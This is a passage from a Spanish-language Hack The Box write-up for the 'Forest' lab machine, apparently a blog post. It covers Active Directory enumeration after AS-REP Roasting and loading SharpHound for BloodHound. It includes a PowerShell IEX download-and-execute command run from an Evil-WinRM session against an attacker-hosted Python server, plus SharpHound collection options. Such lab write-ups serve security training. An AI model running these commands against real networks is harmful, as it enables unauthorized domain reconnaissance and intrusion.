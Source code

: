 Entrando en el **Privileged IT Accounts**, vemos que aparece el grupo que buscamos.

Entremos ahí:

<p align="center">
<img src="/assets/images/htb-writeup-forest/Captura3.png">
</p>

Observa que nos muestra la información del **usuario svc-alfresco**, y ahí podemos ver la instrucción **DONT_REQ_PREAUTH** que nos permitió aplicar el **AS-REP Roasting Attack**.

Si bien podemos seguir buscando y obteniendo información, es mejor usar **BloodHound** para que nos muestre formas en que podemos aprovechar vulnerabilidades encontradas.

En este caso, estaré usando el **BloodHound 4.3.1 y SharpHound 1.1.1**.

<h2 id="Blood">Enumeración de AD con BloodHound</h2>

Aquí puedes obtener el **SharpHound**:
* <a href="https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.5.7" target="_blank">Repositorio de BloodHoundAD: SharpHound - Releases</a>

Para este caso, tenemos dos opciones con las que podemos cargar el **SharpHound**:

*Opción 1* - Cargarlo desde un servidor de **Python**:

* Abre un servidor en **Python** en donde tengas el **SharpHound**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Desde **Evil-WinRM**, vamos a interpretar el contenido del script para cargarlo a la sesión actual como un módulo:
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> IEX(New-Object Net.WebClient).downloadString('http://Tu_IP/SharpHound.ps1')
```
De esta forma, ya debería estar cargado el **SharpHound** como un módulo.

* Para usarlo, puedes ver las funciones que puedes invocar con **grep** en tu máquina:
```bash
cat /opt/SharpHound-v1.1.1/SharpHound.ps1 | grep "Invoke"
function Invoke-BloodHound
        PS C:\> Invoke-BloodHound
        PS C:\> Invoke-BloodHound -Loop -LoopInterval 00:01:00 -LoopDuration 00:10:00
        PS C:\> Invoke-BloodHound -CollectionMethods All
        PS C:\> Invoke-BloodHound -CollectionMethods DCOnly -NoSaveCache -RandomizeFilenames -EncryptZip
        $Assembly.GetType("Costura.AssemblyLoader", $false).GetMethod("Attach", $BindingFlags).Invoke($Null, @())
        $Assembly.GetType("Sharphound.Program").GetMethod("InvokeSharpHound").Invoke($Null, @(,$passed))
```
